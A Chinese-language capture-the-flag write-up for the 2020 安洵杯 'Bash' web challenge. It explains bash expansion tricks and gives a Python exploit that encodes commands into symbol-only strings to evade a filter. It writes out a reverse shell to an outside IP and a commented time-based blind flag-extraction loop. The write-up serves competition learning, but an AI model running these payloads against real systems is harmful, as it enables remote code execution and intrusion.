 ```yaml
---
title: 安洵杯wp
date: 2020-12-07 19:50:23
tags: WP
---
```


## 2020安洵杯线上复现WEB

## Bash

预备知识：

**$(command)**：获取command命令执行后的结果。

![image-20201207200755293](https://i.loli.net/2020/12/07/p124rVExgM9G6qb.png)

`\`后接一个数字表示ascii码等于该值的字符

![image-20201207204531392](https://i.loli.net/2020/12/07/n7D8lEHYyBhIJvq.png)

`$''`引用内容展开，执行单引号内的转义内容（单引号原本是原样引用的），这种方式会将引号内的一个或者多个[\]转义后的八进制，十六进制值展开到ASCII或Unicode字符.

`$((1+1+1))`这个会输出数字3

![image-20201207211118580](https://i.loli.net/2020/12/07/P8JVCsFtqOuL4ow.png)

`\`转义号，使得符号失去原来的意思，但是bash执行一次就会消去用于转义的转义号一个。

![image-20201207211246592](https://i.loli.net/2020/12/07/VQfnOPyeodaWxFi.png)

可以从图中看出，第二个语句，cmd将`$((1+1+1))`当作是一个字符串去匹配，因为这是引号的作用。加了转义号之后，里面的语句正常的执行了，`‘`变成了普通的符号，作为了外层的拼接字符。

![image-20201207211842187](https://i.loli.net/2020/12/07/D6cGiIArqg9maVM.png)

现在来拆解这两个shell语句

```
$\'\\1$((1+1+1+1+1+1))0\\1$((1+1+1+1+1+1))$((1+1+1))\'
```

根据上面的语法，`$''`可以将其中的转义的八进制数据展开成ascii字符，但是我们发现并没有展开。原因是`''`这个符号被我们用转义符号进行转义掉了。现在他就是普通的字符，没有什么特别用处，同理`\\`其中的这两个符号也表示成为`\`字符而已，而不是转义符。

执行完第一个cmd中自带的bash就是：

`$'\160\163'`执行完语句中本身的特俗表达，现在就是要执行整体了（如果有人好奇，为什么没有如图所示

![image-20201207212314912](https://i.loli.net/2020/12/07/NHhQX9rYOt7i8F6.png)

我劝他再看一下我上面的描述。

现在他只是一个字符串，第一个bash的命令已经执行完毕了。然后再在命令堆里拿着这个字符串去匹配，发现，屁都没有。然后就会报错。但是我如果再将这个没有转义符的字符串放到下一个bash里面，这个时候一切就又可以快乐起来。

`<<`在`$(())`表示位移运算

`2#` linux下的进制转换:https://www.cnblogs.com/dingbj/p/10140785.html

然后根据这个，我们要再`$''`中构建出命令的八进制，然后我们还要将8个数字拆了用`${##} ${#}`

表示，下面上exp

```python
import requests
n = dict()
n[0] = '$#'
n[1] = '${##}'
n[2] = '$(({n1}<<{n1}))'.format(n1=n[1])
n[3] = '$(({n2}#{n1}{n1}))'.format(n2=n[2], n1=n[1])
n[4] = '$(({n1}<<{n2}))'.format(n2=n[2], n1=n[1])
n[5] = '$(({n2}#{n1}{n0}{n1}))'.format(n2=n[2], n1=n[1], n0=n[0])
n[6] = '$(({n2}#{n1}{n1}{n0}))'.format(n2=n[2], n1=n[1], n0=n[0])
n[7] = '$(({n2}#{n1}{n1}{n1}))'.format(n2=n[2], n1=n[1])
f=''
a='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_{}@'

def str_to_oct(cmd):
    s = ""
    for t in cmd:
        o = ('%s' % (oct(ord(t))))[2:]
        s+='\\'+o
    return s

def build(cmd):
    payload = "${0}<<<${0}\<\<\<\$\\\'"
    print(str_to_oct(cmd))
    s = str_to_oct(cmd).split('\\')
    print(s)
    for _ in s[1:]:
        payload+="\\\\"
        for i in _:
            payload+=n[int(i)]
    print(payload)
    return payload+'\\\''

def get_flag(url,payload):
    try:
        data = {'cmd':payload}
        r = requests.post(url,data,timeout=1.5)
    except:
        return True
    return False

with open('1.txt','w') as f:
    f.write(build('bash -i >& /dev/tcp/192.168.43.16/1234 0>&1'))
# for i in range(1,50):
#     for j in a:
#         cmd=f'cat /flag|grep ^{f+j}&&sleep 3'
#         url = "http://ip/"
#         if get_flag(url,build(cmd)):
#             break
#     f = f+j
#     print(f)
```

